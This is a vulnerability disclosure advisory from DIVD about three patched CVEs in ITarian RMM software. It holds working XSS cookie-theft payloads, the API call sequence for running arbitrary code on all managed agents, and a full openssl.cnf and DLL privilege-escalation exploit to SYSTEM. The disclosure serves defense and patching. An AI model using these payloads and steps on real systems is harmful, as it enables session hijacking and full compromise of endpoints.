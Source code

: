 ```yaml
---
layout: post
title: Itarian Full disclosure
author: Hidde Smit
researchers: 
    - Wietse Boonstra
    - Hidde Smit
excerpt: "Full disclosure of vulnerabilities discovered in Itarian products"
---
```

DIVD researchers, Hidde Smit and Wietse Boonstra, have discovered multiple vulnerabilities. Vulnerabilities in the following products have been found:
- ITarian SaaS platform
- ITarian on-premise (version 6.35.37347.20040)
- Endpoint Manager Communication Client (version 6.43.41148.21120)

ITarian is a Remote Monitoring and Management (RMM) software suite. It allows administrators to manage endpoints. Because of this powerful position within an organisation, RMM suites are often targeted by malicious actors.

Making initial contact with ITarian proved to be difficult. The vulnerabilities were discovered in December 2021. However, contact and subsequent fixes only started rolling out in May 2022.

DIVD has recently become an CVE Numbering Authority (CNA) and has used these rights to create the following CVE’s assigned to the vulnerabilities included in the write-up below:
- {% cve CVE-2022-25151 %}
- {% cve CVE-2022-25152 %}
- {% cve CVE-2022-25153 %}

The rest of this post contains the full technical write-up of the vulnerabilities. These vulnerabilities have been patched and no longer work on the latest version of ITarian software.

## Cross-Site Scripting in ITarian SaaS Service Desk module (ITarian SaaS platform)

- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/people/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/people/Hidde%20Smit/)
- Products: ITarian SaaS platform
- Reference: Case {% divd DIVD-2021-00037 %}

In order to exploit this Cross-Site Scripting (XSS) vulnerability, the victim needs to enable the Service Desk module, which is not enabled by default. The vulnerability can be exploited by visiting the victim's Support Ticket System page as shown in the screenshot below.


![Screenshot of XSS payload in a support ticket](/img/DIVD-2021-00037/CVE-2022-25151-01.png)

There are two XSS vulnerabilities. One is present in the Email Address field and the other in the Full Name field.

The payload for Email Address is: `"<script>alert(document.cookie)</script>"@something.somewhere`

The payload for Full Name is: `<script>alert(document.cookie)</script>`

The Email Address payload triggers once an ITarian MSP user has opened the ticket contents as shown in the screenshot below, the ticket might also trigger if the user hovers over the ticket to preview the content.

![Screenshot of XSS triggered in service desk module](/img/DIVD-2021-00037/CVE-2022-25151-02.png)

Using this exploit technique, it is possible to steal the `OSTSESSID` cookie and gain access to the ticketing system of the victim by visiting the direct URL, in this case: `https://{CUSTOMER_URL}.servicedesk.comodo.com/scp/tickets.php`

The cookie `token` can also be stolen, which is actually a SSO-token granting full access to the MSP dashboard without any credentials needed. This can be done by stealing the `token` cookie through XSS as demonstrated above and placing it in the MSP URL as shown below:
`https://{CUSTOMER_URL}.cmdm.comodo.com/?sso-token={token}`


## Session cookie not protected by HttpOnly flag (ITarian SaaS platform / on-premise) - CVE-2022-25151

- CVE: {% cve CVE-2022-25151 %}
- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/people/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/people/Hidde%20Smit/)
- Products: ITarian SaaS platform and Itarian on-premise
- CVSS: 7.5
- Reference: Case {% divd DIVD-2021-00037 %}, {% cve CVE-2022-25151 %}
- Solution: Itarian on-premise is no longer maintained. Please avoid using Itarian on-premise.

Being able to steal cookies exploiting XSS, is caused by the lack of HttpOnly. Both on-premise and SaaS platforms do not implement the HttpOnly flag on session cookies. Setting HttpOnly stops JavaScript from being able to access the cookie and as such mitigates XSS attacks which are trying to steal session cookies, as demonstrated with the XSS vulnerability.

## Creation of procedure and bypass approval (ITarian SaaS platform / on-premise) - CVE-2022-25152

- CVE: {% cve CVE-2022-25152 %}
- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/people/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/people/Hidde%20Smit/)
- Products: ITarian SaaS platform and Itarian on-premise
- CVSS: 9.9
- Reference: Case {% divd DIVD-2021-00037 %}, {% cve CVE-2022-25152 %}
- Solution: Itarian on-premise is no longer maintained. Please avoid using Itarian on-premise.

If a malicious actor gains access to the Token session cookie, he can create a procedure, bypass approval and run the procedure. Resulting in all agents running arbitrary code as SYSTEM, which could for example be used during ransomware deployment. 

The Token session cookie can be retrieved by abusing the XSS vulnerability in the Service Desk module.

Creating and bypassing approval consists of multiple steps. The vulnerability is easily exploited by calling the following three API endpoints in the following order:
1. /procedure/windows/create
2. /procedure/windows/update/id/\<id\>
3. /procedure/run/device-all

The first API call is used to create a procedure, the second is used to add arbitrary Python code and the last API call bypasses approval and pushes the procedure to all devices. These three steps have been automated in a Python POC which can be found [here](https://github.com/DIVD-NL/Itarian-2021-00037/blob/main/POC/CVE-2022-25152-POC.py)

## Endpoint Manager agent local privilege escalation (Endpoint Manager Communication Client) - CVE-2022-25153

- CVE: {% cve CVE-2022-25153 %}
- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/people/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/people/Hidde%20Smit/)
- Products: ITarian SaaS platform and Itarian on-premise
- CVSS: 7.8
- Reference: Case {% divd DIVD-2021-00037 %}, {% cve CVE-2022-25153 %}
- Solution: Make sure Endpoint Manager agent is the latest version, if not download and install the latest agent.

If a malicious actor gains low privilege access to a system where ITarian Endpoint Manager Communication Client has been installed, he will be able to escalate his privileges to SYSTEM. Gaining full access over the system by exploiting the ITarian client.

Systems that have an ITarian client installed run their processes under SYSTEM rights, as shown in the screenshot below.

![Services running as SYSTEM](/img/DIVD-2021-00037/CVE-2022-25153-01.png)

`RmmService.exe` and `ITSMService.exe` do an `openssl.cnf` lookup in a folder which does not exist. A malicious user on a system with ITarian agent installed can escalate his privileges from user to SYSTEM by crafting a malicious `openssl.cnf` in the folder shown in the screenshot.

![Openssl.cnf lookup](/img/DIVD-2021-00037/CVE-2022-25153-02.png)

The steps below demonstrate running privileged commands.

Create the folder: `C:\Work\vcpkg\packages\openssl-windows_x86-windows-static-md`

Create an `opsenssl.cnf` in the newly created folder with the following content:

```
openssl_conf = openssl_init
[openssl_init]
engines = engine_section
[engine_section]
cmd = cmd_section
[cmd_section]
engine_id = cmd
dynamic_path = c:\\Work\\vcpkg\\packages\\openssl-windows_x86-windows-static-md\\whoami.dll
init = 0
```

Compile a `whoami.dll` with the following content:

```
#include "pch.h"
#include <stdlib.h>
#include <windows.h>
  
BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("C:\\windows\\SysWOW64\\cmd.exe /c whoami > C:\\windows\\tasks\\whoami.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

Place both `whoami.dll` and `openssl.conf` in the folder. Restart the system or wait for the `openssl.cnf` lookup to trigger. After triggering a `whoami.txt` will be placed in `C:\windows\tasks`

![Remote code execution as SYSTEM](/img/DIVD-2021-00037/CVE-2022-25153-03.png)

This can of course, be any arbitrary code, for example, a reverse shell with SYSTEM rights.
